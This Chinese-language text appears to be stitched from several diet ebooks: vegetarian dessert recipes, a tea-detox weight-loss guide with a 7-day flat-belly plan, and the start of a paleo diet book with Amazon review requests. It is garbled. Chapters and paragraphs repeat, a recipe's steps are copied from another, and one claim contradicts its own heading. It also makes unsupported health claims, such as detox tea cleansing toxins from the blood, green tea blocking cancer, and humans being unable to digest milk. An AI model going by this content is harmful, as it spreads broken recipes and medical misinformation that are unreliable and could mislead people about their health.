- 2 个洋葱，切成四份
- 2 根胡萝卜，切成长条
- 1 根西葫芦，切成长条
- 3 大葱
- 3 根西芹茎
- 2 茶匙蜂蜜
- 3 个西红柿，切成四份
- 海盐和现磨黑椒

### 制作步骤

1. 预热烤箱至 350 F（177°C）。将库斯库小米放入耐烤的具中。将盐加入温水中并淋在库斯库小米上。盖上让库斯库小米吸收水分 10 分钟。
2. 与此同时，在一个较大的汤锅中倒入蔬菜汤并煮沸。将大蒜、迷迭香、胡椒、月香叶和盐混合。加入红薯、洋葱和西葫芦，煮 5 分钟。之后，加入大葱和西芹茎。
3. 盖上锅煮 25 分钟。检查调味，然后拌入蜂蜜和西红柿。
4. 用叉子拨散库斯库小米，涂抹油脂将米粒拨起并使其落回容器中以增加空气。在库斯库小米顶部点上一些黄油，放入预热好的烤箱中烤 20 分钟。
5. 堆成山。取出蔬菜并放在库斯库小米周围。将汤倒入碗中，配上蔬菜和库斯库小米食用。

# 第 5 章 – 素食甜点

没有什么比厚实的布丁更治愈，而自制传统甜点总是最好的。以下令人垂涎滴口的食谱绝对能满足你的甜食欲望，而且完全察觉不到它们都是素食的。

## 1. 黄油糖苹果布丁

### 配料

- 2 个大苹果，去核并切成 2cm 大块
- 125g 自发面粉
- 200g 黄红糖
- ¼ 茶匙盐
- 1 茶匙香草提取液
- 1 汤匙橄榄油
- ¼ 杯苹果酱
- 200ml 牛奶
- 2 汤匙金色糖浆
- 150ml 开水

### 制作步骤

1. 预热烤箱至 350 F。将苹果放在耐烤具底部，均匀地铺开。
2. 将面粉、一半的糖和盐混合并搅拌均匀。与此同时，在另一个碗中，将香草提取液、橄榄油、苹果酱和牛奶混合。将两种混合物混合在一起并快速搅拌使其融合。之后，将混合物倒在苹果上。
3. 在盛有沸水的汤锅中倒入金色糖浆和剩下的糖。搅拌至糖溶解。然后均匀地倒在烤具中。撒上红糖，放入烤箱中烘烤 30 分钟，直到按压布丁表面时有轻微的回弹。即可享用。

## 2. 榛果杏仁糖

### 配料

- 100g 去皮杏仁
- 125g 烤榛果
- 1 汤匙 橙花水
- ½ 茶匙磨好的蔻蔻籽
- 300g 细糖

### 制作步骤

1. 将杏仁和榛果磨碎至极细。加入花水和蔻蔻籽。
2. 将水和糖煮至软球阶段。软球阶段是指糖滴入冷水时的反应状态术语。
3. 与此同时，使用搅拌机，将糖倒入磨碎的坚果中，搅拌至质地光滑。冷却后，用手揉面。当面团看起来有光泽时停止揉面。

## 3. 苹果核桃蛋糕

### 蛋糕部分

- 橄榄油
- 细糖
- ¼ 杯苹果酱
- 2 茶匙肉桂
- 250g 希腊酸奶
- 1 汤匙泡粉
- 190g 面粉
- 3 个苹果，切成 1.5cm 方块

### 糖浆部分

- 150ml 水
- 75g 流质蜂蜜
- 糖

### 制作步骤

1. 预热烤箱至 350 F。使用弹簧模具并涂油。
2. 将黄油和糖混合。打发鸡蛋，然后拌入酸奶。拌入肉桂、泡粉和面粉。充分混合后加入苹果。
3. 将面糊倒入弹簧模具中烘烤 1 小时。从烤箱中取出并在制作糖浆期间晾冷却。
4. 制作糖浆将所有原料混合并煮沸。煮至酱汁变稠。
5. 将糖浆淋在蛋糕上 10 分钟，撒入核桃并配上希腊酸奶食用。

## 4. 香蕉酥饼

### 配料

- 植物油
- 100g 鹰豆粉
- ¼ 茶匙小苏打
- 150ml 水
- 2 根香蕉，切片

### 糖浆部分

- 4 汤匙 枫糖浆
- 2 汤匙 水
- 蔻蔻籽
- 一小撮干玫瑰花瓣
- 去壳开心果

### 制作步骤

1. 在大锅中加热油。
2. 与此同时，在一个大碗中放入面粉和小苏打。加入水并充分搅拌。
3. 在小锅中加热枫糖浆、水、蔻蔻籽、干玫瑰花瓣和去壳开心果，煮沸 2 分钟。
4. 将裹好面糊的香蕉放入煎锅中，分批煎炸直到香蕉呈金黄色。
5. 淋上预制好的糖浆。即可享用。

## 5. 大黄茎甜点

### 配料

- 400g 大黄茎
- 150ml 水
- 100g 细糖
- 75g 流质蜂蜜
- 300g 苹果酱
- 100g 去壳开心果
- 1 汤匙 橙花水
- ½ 茶匙 磨好的蔻蔻籽

### 制作步骤

1. 在汤锅中，将水和糖煮至软球阶段。
2. 与此同时，在一个大碗中放入面粉和小苏打。加入水并充分搅拌。


# 第 4 章 – 素食甜点

没有什么比厚实的布丁更治愈的，而自制传统甜点总是最好的。以下令人垂涎滴口的食谱绝对能满足你的甜食欲望，而且完全察觉不到它们都是素食的。

## 1. 黄油糖苹果布丁

配料：

- 2 个大苹果，去核并切成 2cm 大块
- 125g 自发面粉
- 200g 黄红糖
- ¼ 茶匙盐
- 1 茶匙香草提取液
- 1 汤匙橄榄油
- ¼ 杯苹果酱
- 200ml 牛奶
- 2 汤匙金色糖浆
- 150ml 开水

制作步骤：

1. 预热烤箱至 350 F。将苹果放在耐烤具底部，均匀地铺开。
2. 将面粉、一半的糖和盐混合并搅拌均匀。与此同时，在另一个碗中，将香草提取液、橄榄油、苹果酱和牛奶混合。将两种混合物混合在一起并快速搅拌使其融合。之后，将混合物倒在苹果上。
3. 在盛有沸水的汤锅中倒入金色糖浆和剩下的糖。搅拌至糖溶解。然后，均匀地倒在烤具中。撒上红糖，放入烤箱中烘烤 30 分钟，直到按压布丁表面时有轻微的回弹。即可享用。

## 2. 榛果杏仁糖

配料：

- 100g 去皮杏仁
- 125g 烤榛果
- 1 汤匙橙花水
- ½ 茶匙磨好的蔻蔻籽
- 300g 细糖

制作步骤：

1. 将杏仁和榛果磨碎至极细。加入花水和蔻蔻籽。
2. 将水和糖煮至软球阶段。软球阶段是指糖滴入冷水时的反应状态术语。
3. 与此同时，使用搅拌机，将糖倒入磨碎的坚果中，搅拌至质地光滑。冷却后，用手揉面。当面团看起来有光泽时停止揉面。

## 3. 苹果核桃蛋糕

配料：

蛋糕部分：

- 橄榄油
- 细糖
- ¼ 杯苹果酱
- 2 茶匙肉桂
- 250g 希腊酸奶
- 1 汤匙泡粉
- 190g 面粉
- 3 个苹果，切成 1.5cm 方块

糖浆部分：

- 150ml 水
- 75g 流质蜂蜜
- 糖

制作步骤：

1. 预热烤箱至 350 F。使用弹簧模具并涂油。
2. 将黄油和糖混合。打发鸡蛋，然后拌入酸奶。拌入肉桂、泡粉和面粉。充分混合后加入苹果。
3. 将面糊倒入弹簧模具中烘烤 1 小时。从烤箱中取出并在制作糖浆期间晾冷却。
4. 制作糖浆将所有原料混合并煮沸。煮至酱汁变稠。
5. 将糖浆淋在蛋糕上 10 分钟，撒入核桃并配上希腊酸奶食用。

## 4. 香蕉酥饼

配料：

- 植物油
- 100g 鹰豆粉
- ¼ 茶匙小苏打
- 150ml 水
- 2 根香蕉，切片

糖浆部分：

- 4 汤匙枫糖浆
- 2 汤匙水
- 蔻蔻籽
- 一小撮干玫瑰花瓣
- 去壳开心果

制作步骤：

1. 在大锅中加热油。
2. 与此同时，在一个大碗中放入面粉和小苏打。加入水并充分搅拌。
3. 在小锅中加热枫糖浆、水、蔻蔻籽、干玫瑰花瓣和去壳开心果，煮沸 2 分钟。
4. 将裹好面糊的香蕉放入煎锅中，分批煎炸直到香蕉呈金黄色。
5. 淋上预制好的糖浆。即可享用。

## 5. 大黄茎甜点

*(注：原文文本从此处开始出现严重内容重复，以下翻译仅针对可识别的逻辑部分)*

# 第 1 章 - 排毒茶如何帮助你

在过去的几年里，“排毒”一词获得了一个糟糕的声誉。虽然有无数声称是“唯一减肥方案”的排毒产品，但我们现在都清楚，单靠液体饮食是起不了作用的。在开始阶段，你可能会发现体重突然下降，但这通常也意味着营养和能量的流。它可以帮助你开启减肥之旅，但在过程中往往很难维持。

排毒，或者用大多数名人喜欢的话说就是“喝茶”，是一种更健康的人体排毒排毒方法。你不需要用液体饮料完全取代正餐，只需要在你现有的、有营养的饮食中加入几杯草本茶即可。这意味着即使在你试图清除血液中残留的所有有害毒素时，你仍然可以摄入所有的水果蔬菜。

因为排毒茶非常容易融入任何人的生活方式，无数名人现在对它的神奇效果深信不疑。这种茶到底有什么之处，让它成为今天市场上最好的减肥方案？以下是茶如何帮助你开启更健康、更快乐的生活方式。

根据美国研究人员 2013 年的一项研究，大量饮用茶具有广泛的处，几乎涵盖了人体的每一个领域。从降低中风风险到提高精神表现，茶中富含茶多酚，即使在热量摄入减少的情况下也能提高你的能量水平。这可能是为什么饮茶者在改变生活方式时，生理和情感上应对得更好的主要原因。

高质量的茶（无论是绿茶还是红茶）富含抗氧化剂，有助于增强身体自然的净化能力。抗氧化剂在排毒过程中起着至关重要的作用，因为它能显著降低氧化应激水平并清除体内自由基。虽然单喝茶不足以完成任务，但它仍然可以让身体的过程变得轻松得多。与许多旨在破坏身体自然周期的排毒产品相比，它被认为是无害的。

由于有些茶专门混合了柠檬草、蒲公英甚至水飞蓟等额外成分，你确信在进行排毒时比传统的排毒能获得更多益处。你可以选择完美的茶配方，帮助你实现特定的健康和健身目标。如果你正在寻找一种能缓解肝脏压力的排毒饮料，例如生姜草本茶，它可以更有效地清洁你的血液。这只需要找到合适的茶配方，它不仅适合你的心情或味蕾，还能补充你的身体系统。

然而，请记住，并不是所有的排毒茶都是平等的。有些茶含有一种非常有效但危险的排毒成分，名为芦黄。芦黄是一种植物性泻剂，能刺激肠道排出内容物。虽然这种成分在短期内对身体有帮助，但长期摄入过多的芦黄会对消化系统产生毁灭性的影响。它可能会导致电解质平衡问题，如果你不注意，会导致脱水。如果你感到便秘，连续几天晚上服用芦黄会有帮助，但不要让它成为你每天的茶。

那么，什么时候喝茶是最好的呢？健康专家认为，你可以在任何需要的时候喝，只要你努力在一天中多喝点水，因为大多数茶配方都含有咖啡因。然而，对于每天只能喝 1-2 杯茶的饮茶者来说，最好在起床后喝第一杯，在准备睡觉前喝第二杯。这样，他们就可以获得抗氧化剂，而不需要对日常生活作程做出任何重大改变。

无论你选择哪种茶配方，请确保配合它一起进行健康的饮食。在没有适当饮食计划帮助的情况下，仅靠茶排毒的效果是的。如果你想排毒身体，你需要做出改变生活的决定，从你的饮食计划中剔除加工食品。你需要用水果、蔬菜和全谷物来喂养身体，以增强消化系统的自然循环。一旦你开始掌握洁净饮食，排毒你的系统将变得轻而易举。

# 第 2 章 - 绿茶知识

绿茶在过去几年中非常流行。自从医学研究显示出其明显的减肥效果以来，世界各地的人开始选择绿茶而不是普通的茶水。然而，虽然你可能觉得每喝一口绿茶都让你更健康了，但你需要了解事实才能充分利用其益处。到底是什么饮料让人们为之疯狂？这里有你绝对需要知道的绿茶知识。

## 绿茶可以提高缓慢的陈代谢

即使随着年龄增长，我们的代谢会变慢，遗传也会影响身体利用热量和储存脂肪的方式。如果你是那些似乎无法像预期那样快速燃烧脂肪的人，那么将绿茶加入日常饮食中可能就是你的完美解决方案。无数研究已经证明，绿茶可以增强身体燃脂脂肪的自然能力。当然，为了达到最大效果，你需要减少糖分摄入并增加蔬菜摄入，但每天早上喝一杯绿茶就足以点燃缓慢的陈代谢了。

## 绿茶可以降低坏胆固醇水平

关于绿茶的另一个神奇事实是，它可以显著降低胆固醇水平，特别是 LDL，即我们所谓的“坏胆固醇”。研究显示，每天饮用 4 杯或更多绿茶的人可能出现高 LDL 水平，而这种水平与许多形式的心脏疾病有关。如果每天 4 杯对你来说太多了，那么你完全可以选择在许多健康食品商店可以买到的绿茶提取胶囊。

## 绿茶可以阻断某些癌症的进展

研究还证明，经常饮用现泡绿茶可以帮助降低某些影响前列腺、卵巢、子宫内膜和乳腺的癌症风险。即使对于已经确诊的人来说，喝绿茶也能产生积极影响。为什么呢？因为它含有大量的对抗自由基的抗氧化剂。你体内的抗氧化剂越多，你的身体就越能应对那些从内部攻击它的元素。

### 绿茶可以降低你的糖尿病风险

虽然目前关于绿茶对人体血糖影响的研究还较少，但每天至少喝 2 杯可以帮助减轻食欲并遏制对糖的渴望。事实上，饮用绿茶可以帮助你减少碳水化合物和糖的摄入，从而降低患 2 型糖尿病的风险。

### 绿茶可以增强整体大脑功能

绿茶不仅具有镇静作用，对大脑功能也有积极影响。新的研究显示，饮用绿茶是增强短期记忆和改善记忆功能的简单方法。尽管对绿茶对其他大脑功能的影响仍需进一步测试，但它在可能对抗阿尔茨海默症等记忆相关疾病方面显示出巨大的潜力。

正如你所见，将绿茶作为主要的茶排毒剂除了维持腰围外，还有许多益处。如果你想获得这些益处，尝试每天喝 3-10 杯。再次强调，一旦开始茶排毒，你不需要完全剥夺食物。只要你吃得洁净，你很快就能看到体重和生活方式的巨大变化。

# 第 3 章 - 一日排毒

许多节食者没有意识到的是，“排毒”实际上是一个动词，而不是名词。如果你不打算做出这种意识的决定去过上更健康的生活方式，那么所有的努力都将化为东流。你应该将这种排毒视为帮助你实现长期目标的手段，而不仅仅是短期的缓解。尽管这个过程被称为“一日排毒”，但它的设计初衷是帮助你开启一个希望成为长期旅程的序幕。关键在于通过做出正确的决定来改变你目前生活的各个方面。

如果你是第一次尝试排毒计划，首先需要后退一步，理解你这么这么事的动机。你是为了穿上婚纱而排毒，还是为了更健康而加入这个计划？虽然从技术上讲，想进行茶排毒的动机没有对错之分，但动机将决定你如何应对它。如果你想在这段旅程中成功，就需要围绕长期目标建立你的动机。

你还需要对整个过程保持耐心，特别是如果你想避免在鲁莽冲忙完成茶排毒时可能发生的剧烈副作用。如果你进展得太快，你的身体会让你器官过度工作，它们很可能会罢工。仓促的方法会导致你阵发恶心、长痘甚至头痛，因此最好的方法始终让身体遵循自然过程。

短期计划只会让毒素在体内移动，而不能彻底清除。关键在于让身体按照自己的节奏工作，并遵循一个帮助你实现长期减肥目标的计划，即使这意味着你需要在过程中培养出强大的自律感。

我们到底如何进行这种一日排毒呢？由于排毒是让我们的身心恢复最佳状态最有效的方法之一，因此在身体和心理健康之间找到完美的平衡至关重要。记住，这一天主要是为了帮助你养成长期习惯。遗憾的是，其他排毒只重视排毒后体重秤上的数字，而不重视你完成后的感受。这就是为什么，除了身体上的准备外，你还应该做好心理上的准备。

## 那么，我们开始吧？

第一步是储备新鲜的柠檬汁。柠檬被认为是大自然的良药，能够修复和修复体内的细胞。难怪在涉及到几乎任何排毒时，柠檬在确保身体在外部压力下仍正常运行方面起着巨大的作用。

在茶类排毒的第一天早晨，先喝一杯温柠檬水来增强肝脏的排毒功能。不要用咖啡来唤醒你的系统，而是喝柠檬水来提供能量，并度地减少脱水。将半个柠檬挤入一杯温水中，将这种饮料变成你每天早晨的习惯。需要一点甜味吗？你可以根据口味随时加入蜂蜜。

接下来，为自己准备一份绿色奶昔，它将为你提供身体维持一天所需的所有维生素和矿物质。只需将½棵菠菜、½棵罗马罗马生菜、3根芹芹、1个梨、1根香蕉和1个苹果与2杯水一起搅拌。将半个柠檬挤入奶昔中并在饮用前混合。用这种绿色奶昔代替一整天的所有主餐，不仅可以清洁你的系统，还能为身体提供排出毒素所需的纤维和酶。仅仅因为你正在排毒，并不意味着你应该剥夺自己大大自然的馈赠。

用排毒茶代替早晨零食，这将帮助你对抗中午的渴望并让你感到神清气爽。准备排毒茶，只需将一个生姜茶包放入一杯刚煮开的水中浸泡2-3分钟，取决于你想要生姜味有多浓。饮用前加入一点柠檬汁和一撮辣椒粉末。这3种成分共同作用分解体内的毒素，同时保护你的内脏免受任何感染。对某些人来说，这可能是一种需要适应的味道，但一直可以通过淋上一点有机蜂蜜来解决。

晚餐时间感到饥饿了？那么是时候准备一份由深色叶蔬菜和切片蔬菜组成的晚餐了。深色叶叶蔬菜将为你接下来的夜晚提供大量的纤维。如果你想激活消化系统并燃烧更多热量，甚至可以加一些辣椒来调味。在排毒期间，最好坚持吃生、有机蔬菜，这样在消化时就不会给胃部带来太大压力。让你的晚餐清淡点。

吃肉只会偏离你的目标，因此此时最好避免所有的诱惑。由于由于这只有一天，你也可以丢掉含有任何形式防腐剂的食品。你可能想在这一天避免西红柿（因为它的酸性）和牛油果（因为脂肪含量高），因为这两种食物可能会让你的全面排毒进度中断。如果你想快速排毒，你需要进行更多研究，看看哪些看似无害的水果蔬菜是你需要避免的。

你已经走了很远了，所以在进行排毒时不要犯最常见的错误——吃任何带有丝丝不健康饮食倾向的东西。寻找像椰子油这样的无胆固醇替代品。这种中链脂肪酸来源充满了益处，例如保护身体免受细菌攻击并支持你的甲状腺功能。然而，为了成功的排毒，要努力限制摄入。

你已经走了很远了，所以在进行排毒时不要犯最常见的错误——吃任何哪怕有一丝丝不健康饮食倾向的东西。寻找像椰子油这样的无胆固醇替代品。这种中链脂肪酸来源充满了益处，例如保护身体免受细菌攻击并支持你的甲状腺功能。然而，为了成功的排毒，要努力限制摄入。

这种排毒会让你看到最好的自己。遵循这些指南，你将在几周内看到这种蜕变。

# 第 4 章 - 今天可以尝试的茶类排毒配方

茶排毒饮料可能看起来很吸引，但如果你每天喝同一种排毒饮料，就会变得很单调。仅仅因为你想减肥，并不意味着你应该每天喝同一种排毒饮料。如果你想探索能为身体提供所需抗氧化剂的排毒饮料，那么这里有一些你需要尝试的配方。

## 绿茶奶昔

将绿茶和苹果混合会得到什么？一种充满抗氧化剂的饮料。这种奶昔不仅好喝，还能让你的身体处于良好状态。酸奶为这种水果蔬菜组合带来了顺滑的。只需这种饮料，你就能感觉好几个。

- 1杯冷泡的绿茶
- ½个红苹果
- 1/3杯羽衣甘蓝
- 1汤匙酸奶
- ½汤匙蜂蜜
- 冰（可选）

方法：


将所有成分混合直到达到奶昔状。如果你想要没有酸奶的奶油感，可以尝试用半杯牛油果代替。这不仅为你提供额外的纤维，还能提供身体在排毒期间所需的钾。

## 能量增强茶昔

绿茶以作为另一种咖啡因来源而闻名，所以如果你在早上需要提神，这是你排毒时的完美饮料。它的咖啡因含量只有普通咖啡的一半，这种能量增强茶昔足以让你清醒，而不会产生咖啡因冲击。此外，橙子和香蕉的组合是开启早晨的好方法。

- 1茶匙绿茶粉
- 1杯椰子奶
- ½个橙子，去籽
- 1根中等香蕉
- ½汤匙有机蜂蜜
- 冰（可选）

方法：

混合所有成分直到达到浓稠奶昔的状态。如果你觉得它缺乏厚度，可以加入半根香蕉。如果你想让这种饮料替代你的第一餐，还可以添加一汤匙蛋白粉。每天饮用时，茶昔应该让你在午餐前感到饱腹和满足。

## 热带排毒奶昔

热带水果如木瓜和芒果可以极大地丰富奶昔的风味。它们不仅含有大量的营养物质，它们的颜色也让饮料看起来非常漂亮。除了抗氧化剂，生姜茶是一种强效的

这将帮助你增强对感染和疾病的免疫力。如果你正在寻找一种有趣的方式来排毒，来尝试一下这款奶昔吧。

有趣又美味的原料：

- 1 杯冷泡的生姜茶
- 1 杯椰子奶
- ½ 杯木瓜，切块
- ½ 杯芒果，切块
- 1 根中等香蕉
- 冰块（可选）

制作方法：

将所有原料混合，直到达到恰好处的奶油般质地。可以根据季节自由更换水果。如果你想获得最大的营养，请务必尽机会选择新鲜水果。

## 水果浆果茶排毒奶昔

你是否在寻找一种比运动前能量饮料更新鲜、健康的替代品？制作这款蒲公英绿茶奶昔，你就可以为运动准备好了。浆果将为你的身体提供真正的能量，支撑你完成你喜欢的任何活动。制作这种美味的日常运动饮料，你将永远期待运动健身。

有趣又美味的原料：

- 1 杯冷泡的蒲公英茶
- ½ 茶匙绿茶抹茶粉
- ¼ 杯树莓
- ¼ 杯覆盆子
- 1 汤匙希腊酸
- 冰块（可选）

制作方法：

将所有原料混合，直到达到浓稠的奶油质地。如果你在意希腊酸的热量，你一直可以使用低脂替代品。如果这个配方对你的口味来说太酸，可以加一茶匙蜂蜜。

## 姜茶香料补剂

谁能想到将生姜茶与香料混合，会产生一种帮助你减肥并增强免疫系统的健康补剂呢？这种饮料不仅在大餐后非常棒，在流感季节来临时也奇奇有效。当你的身体受到攻击时，让它回到正轨的唯一方法就是补充它能承受的所有营养。医生的医嘱！

有趣又美味的原料：

- 3 包生姜茶包
- 1/4 茶匙有机肉桂粉
- 1/4 茶匙姜黄
- 8 盎司近沸的纯净水
- 1 汤匙有机蜂蜜

制作方法：

在茶壶中浸泡茶包，加入香料和蜂蜜。茶泡好后，取出茶包即可享用。如果你在寻找一种异域风味的饮品，可以尝试不同的香料。为了获得清爽的回味，在食用前向锅里挤半个柠檬。

## 绿色冰咖啡

想沉浸在一种让你感觉像是在高档咖啡馆悠闲啜饮的饮料中吗？制作这款绿色冰咖啡，获得每日所需的浓郁绿茶味，而无需经历泡茶包和等待饮料冷却的繁琐过程。抹茶粉含有同样的健康益处，只是省去了准备时间。

有趣又美味的原料：

- 1 茶匙绿茶抹茶粉
- ½ 汤匙有机蜂蜜
- 1 杯椰子奶
- 冰块（可选）

混合所有原料，直到得到一种奶油般的泡沫饮料。由于你只使用几种关键原料，你可以在你随意的任何时间享受这种饮料的醇厚。绿色冰咖啡最好在炎热的夏季独自享用，或者和朋友一起聊天，聊聊你们目前为止的减肥之旅。

## 超棒星形茶果汁

绿茶通过三种高营养的水果获得了果味的冲击。菠萝提供了纤维，梨子则带来了甜味，而嗯，它为这种饮料带来了独特的风味，同时添加了大量的维生素 C。当你感到虚弱或发烧时，制作这种饮料，你很快就能恢复活力。谈谈如何获得对由于自由基损害的极大保护吧。

有趣又美味的原料：

- 1 杯冷泡的绿茶
- ½ 杯菠萝块
- ½ 杯梨，切块
- ½ 杯木瓜，切块

制作方法：

混合所有原料，直到它们变成果汁。确保混合直到所有水果块都液化。达到那种质地可能需要一段时间，所以如果你时间紧迫，可以在享用饮料前用滤网滤掉大块。

## 第5 章 - 7 天平腹减肥计划

在 7 天内真的可能让腹部变平坦吗？虽然长期维持茶饮排毒似乎是不可能的，但在 7 天内调整状态会对你的身体产生巨大影响。尝试不要将这 7 天视为解决问题的权宜之计，而是视为一个帮助你做出更好食物选择和更健康生活决策的过渡阶段。你可以尽情排毒，但事实是，如果没有具体的计划，你就无法得到想要的结果。

这就是为什么这个计划的设计是为了让你向更健康的自己转变变得更容易接受。这是关于引入逐渐的变化，这样你的身体就不会陷入休克。你只需要完全遵循这个计划，你将在 7 天后看到一个全新的自己。

## 周一

开始排毒最好的方法是养成多喝水的习惯。身体经常会将口渴与饥饿混淆，所以如果你一直觉得饥饿，那是你的身体在说你没有喝水。保持水分充足是排毒的关键元素，也是一种增强能量的安全有效方法，特别是当你尽量减少热量摄入时。饭前喝一杯水，饭后紧接着喝一杯。这样，即使没有额外的食物摄入，你也会感到满足。

## 周二

一旦你的身体得到充分的水分，下一步就是开始茶饮排毒。在前面的章节中你读过的“1 天清理”在第二天执行应该会容易得多，因为实际上，你已经通过喝的所有水减少了食物摄入。这也是你阻止自己沉溺于液态热热的完美时机。周二是你重新思考日常饮品选择的一天。软饮料、果汁和酒精含有许多你并不希望进入体内的糖分，所以把在这一天戒掉这种习惯作为你的个人目标。

## 周三

即使你今天只吃水果和蔬菜，也要让每一餐都成为一种仪式。在进行 1 天禁食后，你的身体可能还没有准备好消化蛋白质和脂肪，所以尽量不要太兴奋。坚持吃蒸的和调味清淡的蔬菜来填饱一天的肚子。如果你发现自己渴望甜食，水果是非常棒的。不要让这一天的排毒让你感到匮乏，相反，要为吃得正确而感到兴奋。无论你多忙，留出时间让你坐下来、放松并享受你的食物是非常重要的。当你一直匆忙赶饭时，你更有可能吃过头。

## 周四

你有零食习惯吗？那么就把这一天留给你戒掉那种“奖励”心态吧。仅仅因为你感到压力大或运动了一下，并不能成为你放纵巧克力和薯片等奖励的借口。这些奖励通常含有大量的热量和脂肪，所以用你想到的所有奖励来奖励自己会强化你脑海中吃它们是可以的的想法。如果你想满足渴望，请寻找水果和坚果等更健康的替代品。

## 周五

周五是关于建立与健康生活对应的新习惯。这包括纠正睡眠习惯并进入状态。研究表明，睡眠不足的人更有可能吃过头，如果你想停止渴望，你需要增加睡眠时间。尝试在固定的时间睡觉，避免在睡前玩电子设备。这应该足以为高质量睡眠营造氛围。虽然不是每个人都对运动感到兴奋，但你需要找到一种方法让自己做好心理准备。从晨走或晚步开始，或者如果你很有冒险精神，可以尝试 10 分钟的 HIIT 初学者训练序列。重点是从某处开始，并将其变成日常习惯。

## 周六

如果你遵循了计划，到现在你应该感觉健康了一些，没那么饥饿了。通过吃均衡的食物来庆祝周末。你的饮食应该包含适量的碳水化合物、蛋白质和健康脂肪。如果少于此，你注定会在几小时后感到饥饿。通过食用适量的淡橄榄油汁白鱼来满足你对肉类和脂肪的渴望。

## 周日

从今天起养成规划饮食的习惯，以涵盖你所有的营养需求。安排你的用餐时间，以免跳餐。跳餐对减肥没有帮助，相反，它只会让你在下一餐时感到更加饥饿。当你的身体开始感到匮乏时，你会倾向于吃更多来补偿你跳掉的那一餐。

## 结论

感谢再次下载这本书！

希望这本书能够帮助你更深入地了解如何通过茶饮排毒来获得你一直渴望的体态和生活方式。只要拥有正确的信息和心态，恢复健康状况、提高生活质量永远为时不晚。通过充分理解茶饮排毒的工作原理以及它如何改善你的生活，你很快就能恢复体形。

要完全放弃旧习惯可能并非易事，但请相信这是可能的。只要你制定了一份能够帮助你走上正轨的行动计划，一切皆有可能。

请务必立即应用你从书中中学到的知识。你不需要做出剧烈的改变。你只需要做一些事情来启动这个过程，进行健康的茶饮排毒就足以帮助你获得一直梦寐以求的小平腹。

最后，如果你喜欢这本书，我想请你一个忙，你是否愿意在 Amazon 上为这本书留一个评价？我将不胜感激！

[点击此处在 Amazon 上为此书留评!]

我想尽可能接触更多的人，更多的评价将帮助我实现这一目标。感谢你并祝你好运！

另外，别忘了关注我的 [Facebook] 页面，并加入关于健康的话题以及我最新书籍的讨论！

如果你喜欢这本书，请查看该系列的下一本书……

但等一下，如果你还没有观看关于如何通过这个 3 周饮食计划来减肥的重要视频，你可能想看一看。[点击此处观看]()

# 14天原始饮食计划

## 初学者原始饮食食谱

我的关于我最喜爱的饮食的额外信息

在 KindleBookSpot.com 还有更多免费和廉价书籍

## 目录

第一章：原始饮食计划的好处

第2章：开始原始饮食计划

第3章：饮食计划（14天指南）

第4章：原始饮食早餐食谱

第5章：午餐时间食谱

第6章：晚餐食谱

第7章：原始饮食零食

第8章：提示与技巧

结论

## 引言

我想感谢你的下载，并祝贺你下载了《14天原始饮食计划：初学者原始饮食食谱》一书。这本书将教你了解关于原始饮食所需的所有知识，以及它将如何增强你的健康。

书中包含了经过验证的步骤和策略，教你：

- 从零开始制作美味且健康的餐点
- 享受多样化的饮食，帮助你减肥并改善健康
- 食用并享受高营养的食物，而不会觉得错过了什么
- 食用让你感到饱腹的餐点
- 如果你想继续享受健康、美味且平衡的饮食，可以长期使用该计划
- 以及许多更多内容！

你不需要为了变得健康而让自己处于非常严格的饮食限制中。原始饮食计划将帮助你在短期内改善健康。因为你将不再吃任何加工食品，你的健康将会得到改善，晚上会睡得更好，外表也会更好。难怪现在有越来越多的人在享受这“14天原始饮食计划”。

再次感谢下载此书，希望你喜欢它！

# 第一章：原始饮食的好处

现在有越来越多的人转向原始饮食，仅仅是因为他们意识到这对你的身体有多好处。我们中有太多人吃了太多加工食品，这些对我们的身体完全没有好处。

原始饮食被认为与数千、甚至百万年前原始人类和女性所食的饮食相似。他们的饮食由肉类（包括鱼）、新鲜水果和蔬菜组成。他们不消耗乳制品，也不消耗加工食品。

原始饮食被认为与数千、甚至百万年前原始人类和女性所食的饮食相似。他们的饮食由肉类（包括鱼）、新鲜水果和蔬菜组成。他们不消耗乳制品，也不消耗加工食品。

原始饮食被认为与数千、甚至百万年前原始人类和女性所食的饮食相似。他们的饮食由肉类（包括鱼）、新鲜水果和蔬菜组成。他们不消耗乳制品，也不消耗加工食品。

原始饮食被认为与数千、甚至百万年前原始人类和女性所食的饮食相似。身体偏好饮食

原始饮食被认为与数千、甚至百万年前原始人类和女性所食的饮食相似。他们的饮食由肉类（包括鱼）、新鲜水果和蔬菜组成。他们不消耗乳制品，也不消耗加工食品。

原始饮食被认为与数千、甚至百万年前原始人类和女性所食的饮食相似。他们的饮食由肉类（包括鱼）、新鲜水果和蔬菜组成。身体饮食饮食。

你不需要为了变得健康而让自己处于非常严格的饮食限制中。原始饮食计划将帮助你在短期内改善健康。因为你将不再吃任何加工食品，你的健康将会得到改善，晚上会睡得更好，外表也会更好。难怪现在有越来越多的人在享受这“14天原始饮食计划”。

再次感谢下载此书，希望你喜欢它！

# 第2章：开始原始饮食计划

如果你是第一次尝试原始饮食计划，你可能需要一些提示。根据我自己的经验，开始新饮食可能很困难。这就是为什么我决定包含一些技巧，让你的程程轻松。

# 错误

我们在开始新饮食时偶尔会犯错，这每个人身上都会发生。如果你不小心吃了不符合原始饮食的东西，不要担心，尽快回到你应该吃的食物。

# 寻找食材来源

尽可能新鲜，尝试从当地市场采购，因为它们会更新鲜。如果你仍然想在饮食中加入牛奶，我建议你考虑饮豆浆、杏仁奶或椰子奶。

我知道完全远离乳制品很难，但有很多不错的替代品。我知道这些经过了程度的加工，但它们能确保你获得所需的钙质以及其他有益的营养。

## 与朋友一起开始计划

如果你好奇为什么我建议你和朋友一起开始计划，是因为这会让饮食变得简单得多。有一个可以比较的人会没那么麻烦。此外，如果你坚持下去，你们在困难时可以互相鼓励。

不要独自执行计划，除非你完全有信心每天激励自己，即使在艰难的时候。

## 关键食物

### 水果和蔬菜

如果你必须吃加工的水果和蔬菜，请寻找添加糖极少或没有的。冷冻水果和蔬菜通常和新鲜的一样，但再次提醒注意添加糖。

### 乳制品

在执行原始计划时，应避免乳制品。这是因为大多数乳制品都经过了加工，对你来说并不总是健康的。

你知道我们身体被造出来唯一的牛奶是母乳吗？我们不应该喝牛奶，因为我们无法正确消化它。

### 鸡蛋

如果你没有什么比吃一两个鸡蛋更喜欢的，那么你会高兴地知道你可以继续吃它们。鸡蛋是完全天然的，没有经过加工，对你非常有益。在早餐吃一个鸡蛋，或者在一天中的任何时候都可以。

# 第 3 章：饮食计划（14 天指南）

